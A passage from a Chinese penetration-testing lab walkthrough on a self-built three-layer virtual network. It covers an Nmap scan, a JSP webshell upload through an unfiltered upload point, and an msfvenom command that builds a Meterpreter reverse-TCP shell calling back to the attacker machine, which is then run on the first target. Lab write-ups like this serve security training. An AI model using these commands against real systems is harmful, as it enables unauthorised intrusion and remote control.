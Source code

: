 [![](https://p3.ssl.qhimg.com/t017cc0e3cbefeea27a.png)](https://p3.ssl.qhimg.com/t017cc0e3cbefeea27a.png)

[![](https://p0.ssl.qhimg.com/t014079b285cd44f1d0.png)](https://p0.ssl.qhimg.com/t014079b285cd44f1d0.png)

将第三层靶机设为vmnet3：

[![](https://p0.ssl.qhimg.com/t01e93368b806fcad95.png)](https://p0.ssl.qhimg.com/t01e93368b806fcad95.png)

至此，我们的3层网络环境就已经搭建完毕。



## 第一层靶机

Nmap探测一下，发现8080端口：

[![](https://p1.ssl.qhimg.com/t01b4de35dbe1f6c1b0.png)](https://p1.ssl.qhimg.com/t01b4de35dbe1f6c1b0.png)

访问一下：

[![](https://p0.ssl.qhimg.com/t0193f82e4d6c59025b.png)](https://p0.ssl.qhimg.com/t0193f82e4d6c59025b.png)

返现文件上传点，经测试没有任何过滤，可以直接上传任意文件，因此直接上传jsp一句话后门：

[![](https://p4.ssl.qhimg.com/t016522dac96fe6288c.png)](https://p4.ssl.qhimg.com/t016522dac96fe6288c.png)

上传后返回文件路径，菜刀连接：

[![](https://p3.ssl.qhimg.com/t01cb6d7bd25def42ef.png)](https://p3.ssl.qhimg.com/t01cb6d7bd25def42ef.png)

为了进一步做内网渗透，上传msf后门：

1、后门制作：

`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.59.128 LPORT=6666 SessionCommunicationTimeout=0 SessionExpirationTimeout=0 -f elf &gt;shell.elf`

将shell.elf上传到第一层靶机192.168.59.129

2、MSF设置监听：

[![](https://p5.ssl.qhimg.com/t0177ef4ba9f3d1a389.png)](https://p5.ssl.qhimg.com/t0177ef4ba9f3d1a389.png)

3、在第一层靶机运行shell.elf

`Chmod 777 shell.elf`<br>`./shell.elf`

4、Msf获得meterpreter，执行shell，查看网络配置，发现双网卡，第二层网络段为192.168.80.0/24

[![](https://p1.ssl.qhimg.com/t011e224aabe3459c50.png)](https://p1.ssl.qhimg.com/t011e224aabe3459c50.png)



## 第二层靶机
